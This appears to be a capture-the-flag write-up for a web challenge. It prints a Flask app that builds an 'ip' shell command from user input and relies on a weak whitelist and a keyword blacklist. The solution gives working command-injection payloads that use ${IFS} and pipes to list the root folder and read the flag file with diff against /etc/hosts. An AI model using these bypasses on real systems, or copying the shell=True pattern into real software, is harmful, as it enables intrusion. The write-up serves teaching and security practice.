



## Description

I used to work as a network engineer at a prominent company, but I found myself unjustly terminated. The cause? Our network administrator inadvertently shut down a critical interface and then placed the blame on my shoulders to salvage his own reputation.
Remarkably, I still retain access to the very panel we once utilized to oversee the network architecture of the company. Now, I seek a talented hacker to exact revenge on my behalf, I am prepared to offer a handsome reward to anyone who could breach this panel's security. Do you possess the expertise and audacity to help me reclaim justice ?

**source code available**

## Solution

when visiting the site we get this :


let's check the source code :

```python
from flask import Flask, render_template, request
import subprocess

whitelist = ["address", "link", "maddress" , "neighbor", "netconf", "ntable", "route", "rule", "tcpmetrics", "token"]
blacklist = [" ", "&", ";", "cat", "-", "less", "more", "head", "tail", "nl", "awk", "sed", "echo","tac", "rev", "strings", "paste", "cut","sort", "fmt", "xxd", "ob"]

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/', methods=['POST'])
def ip():
    option = request.form['option']
    if any(character in option for character in blacklist):
        return "Malicious input detected."

    if not any(opt in option for opt in whitelist):
        return f"Sorry, but only these options are availabe: {whitelist}"

    try:
        result = subprocess.run(f"ip {option} show", shell=True, capture_output=True, text=True)
        return f'{result.stdout}'
    except Exception as e:
        return f'Error: {e}'

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=5000,debug=True)
```

okey, so first we notice that our input is getting passed to a shell command as so `ip OUR_INPUT show`, this makes it potentially vulnerable to command injection, but there is some protection in place, we have a whitelist and a blacklist.

we can't use `&` or `;` to break the command into pieces cause they're blacklisted, but there is another operator which is `|` and `||` to achieve that and they are not blacklisted.

now the problem is in the whitelist, as we need to only specify only words that are in that list, at least this is what the developer intended to do, but if look carefully, it only checks if at least one word of the whitelist is in our input, it doesn't check if all of our input is in the whitelist.

this means we only need to use one of the words in the whitelist once in our input to bypass that.

we know how to bypass both checks, now comes the part where we have to construct our command.

if we send this payload `${IFS}link|ls||` the final command will be :

```bash
ip link|ls|| show
```

let's breakdown this command:

- first we used `${IFS}` cause the space is blacklisted, and `${IFS}` will result into a space.
- second we used `link` to include a word from the whitelist and in same time to make the first command work successfully.
- we used `|ls` to break the command and execute another command which is `ls`.
- then we used `||` which is the `Logical OR Operator`, we used this to skip the rest, cause if we specify the `||` operator, if the first command executes successfully, the second command will be skipped.

now let's try our command :



we see that the command executed successfully, now let's search for the flag, first we check in `/`, we can do that with this input `${IFS}link|ls${IFS}/||` :



we found the flag which is in `/flage4a423147c.txt`, now a new problem emerges, we cannot read the flag as pretty much every builtin bash command to read files is blacklisted.

my teammate suggested to use the `diff` command, the diff command in linux is used to compare the content of two files or directories and displays the differences between them, so if we compare the flag with literately any other file, we should get the content of both files since it's obvious that they will be different.

let's try to compare the flag with the `/etc/hosts` file, we can do that with this input `${IFS}link|diff${IFS}/flage4a423147c.txt${IFS}/etc/hosts||`, let's try it out :



- flag: `shellmates{S1l3nc3d_S3rv3r5___Ech0_Just1c3}`
